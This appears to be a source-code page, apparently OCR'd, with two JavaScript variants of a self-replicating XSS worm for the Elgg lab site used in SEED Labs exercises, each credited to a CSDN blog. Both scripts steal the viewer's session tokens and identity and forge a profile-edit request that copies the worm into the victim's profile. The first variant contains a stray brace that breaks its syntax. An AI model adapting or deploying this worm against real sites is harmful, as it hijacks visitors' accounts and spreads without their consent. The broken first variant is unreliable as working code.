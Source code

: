 

```javascript
<script type="text/javascript" id=worm>
    window.onload = function(){
        var name="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="__elgg_token="+elgg.security.token.__elgg_token;
    
        var description = "&description=<p>Your profile have been attacked!!!<\/p>"}
        var scriptstr = "<script type=\"text\/javascript\" id=worm>" + document.getElementById("worm").innerHTML + "<\/script>";
    
        var content=token + ts + description + encodeURIComponent(scriptstr) + guid + name;
    
        Ajax=new XMLHttpRequest();
        Ajax.open("POST","/action/profile/edit",true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
</script>
//引用自https://blog.csdn.net/qq_39678161/article/details/119908242
<script id="worm">
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    window.onload = function(){
        var userName="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var content=token + ts + userName +
            "&description=" + wormCode + "&accesslevel[description]=2" + 
            "&briefdescription=samy%20is%20my%20hero&accesslevel[briefdescription]=2" +
            guid;
        var samyGuid=59;
        var sendurl="http://www.seed-server.com/action/profile/edit";
        
        if(elgg.session.user.guid!=samyGuid)
        {
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Content-Type",
                                  "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
//引用自https://blog.csdn.net/l4kjih3gfe2dcba1/article/details/118768821
```
